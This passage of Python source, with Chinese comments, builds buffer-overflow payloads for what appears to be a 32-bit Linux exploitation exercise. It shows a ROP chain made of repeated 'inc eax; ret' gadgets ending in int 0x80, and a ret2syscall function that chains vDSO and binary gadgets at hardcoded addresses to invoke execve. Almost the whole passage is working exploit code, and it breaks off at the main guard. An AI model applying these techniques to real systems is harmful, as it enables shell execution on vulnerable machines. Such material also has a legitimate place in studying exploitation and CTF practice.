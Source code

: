 ```python
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x0809a0bf)  # inc eax ; ret
    p += p32(0x08049469)  # int 0x80

    print(len(p))
    # 对齐
    p += b'a' * (256 - len(p))
    print(p)
    return p


def build_ret2syscall():
    vdso_addr = 0x55596000
    # pop edx; pop ecx; ret;
    gadget1_addr = vdso_addr + 0xb5a
    null_val_addr = vdso_addr + 0xc70
    # ret 0xa7eb;
    gadget2_addr = vdso_addr + 0xa57
    # ret
    gadget3_addr = vdso_addr + 0x66a

    # mov eax, dword ptr [edx + 0x4c] ; ret
    # 此时eax = 0xb
    gadget4_addr = 0x80c1f80
    # int 80
    gadget5_addr = 0x8049469

    rop_offset = 0xa8
    payload = b'a' * (rop_offset + 4)

    # 返回到gadget1
    payload += p32(gadget1_addr)
    payload += p32(null_val_addr)  # edx
    payload += p32(null_val_addr)  # ecx

    # 返回到gadget2
    payload += p32(gadget2_addr)

    # 返回到gadget3，此时esp应指向环境变量的位置
    payload += p32(gadget3_addr)

    # 让ebx指向某个字符串，ebx -> 'z'
    payload += b'z' * (400 - len(payload))

    env_arg = p32(gadget4_addr)
    env_arg += p32(gadget5_addr)

    # 即输入的字符串
    print('payload:', payload)
    # 环境变量，短gadget
    print('env_arg:', env_arg)


if __name__ == '__main__':
```